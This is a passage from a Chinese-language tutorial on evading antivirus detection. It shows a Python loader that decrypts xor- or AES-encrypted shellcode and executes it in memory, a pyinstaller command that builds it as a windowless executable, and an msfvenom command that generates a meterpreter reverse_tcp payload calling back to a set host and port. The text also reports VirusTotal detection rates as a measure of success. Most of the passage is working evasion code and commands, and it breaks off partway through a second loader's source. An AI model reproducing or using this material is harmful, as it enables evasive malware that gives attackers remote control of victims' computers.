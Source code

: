 ```
    cipher = AES.new(key, AES.MODE_CBC, iv)
    return unpad(cipher.decrypt(cipherText[AES.block_size:]))

if __name__ == '__main__':

    encryptedShellcode = ("\xaf\xac\xda\x91\...")
    key = "tidesec"
    cipherType = "xor"

    # Decrypt the shellcode
    if cipherType == 'xor':
        shellcode = xor(bytearray(encryptedShellcode), key)
    elif cipherType == 'aes':
        key = base64.b64decode(key)
        shellcode = aesDecrypt(encryptedShellcode, key)
    else:
        print "[ERROR] Unknown cipher type"

    # Copy the shellcode to memory and invoke it
    memory_with_shell = create_string_buffer(shellcode, len(shellcode))
    shell = cast(memory_with_shell,CFUNCTYPE(c_void_p))
    shell()
```

使用 pyinstaller 编译：

```
python pyinstaller.py --onefile --noconsole encryptedShellcodeWrapper_xor.py
```

编译执行，可上线，virustotal.com 上查杀率 19/71

![](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RWKSfibtl3qJIyDU15icGvGIbkUMqx7DD9oF9yI5Dre2130Q78MxsYFGWGBsLw17hbQrlFJ04ajssaA/640?wx_fmt=png)  

2.6 方法 6：aes 加密 (VT 免杀率 19/71)
------------------------------

这个和上面的方法 5：xor 加密一样，需要使用一个工具`[https://github.com/Arno0x/ShellcodeWrapper](https://github.com/Arno0x/ShellcodeWrapper)`

先用 msfvenom 生成一个 raw 格式的 shellcode

```
msfvenom -p  windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 6 -b '\x00' lhost=10.211.55.2 lport=3333  -f raw > shellcode.raw
```

在`ShellcodeWrapper`文件夹中执行下面命令，其中`tidesec`为自己设置的 key，加密方式设置为 aes 即可。

```
python shellcode_encoder.py -cpp -cs -py shellcode.raw tidesec aes
```

其中`encryptedShellcodeWrapper_aes.py`文件中的 python 源码如下

```
#!/usr/bin/python
# -*- coding: utf8 -*-
# Author: Arno0x0x, Twitter: @Arno0x0x
#
# You can create a windows executable: pyinstaller --onefile --noconsole multibyteEncodedShellcode.py
from Crypto.Cipher import AES
from ctypes import *
import base64

#------------------------------------------------------------------------
# data as a bytearray
# key as a string
```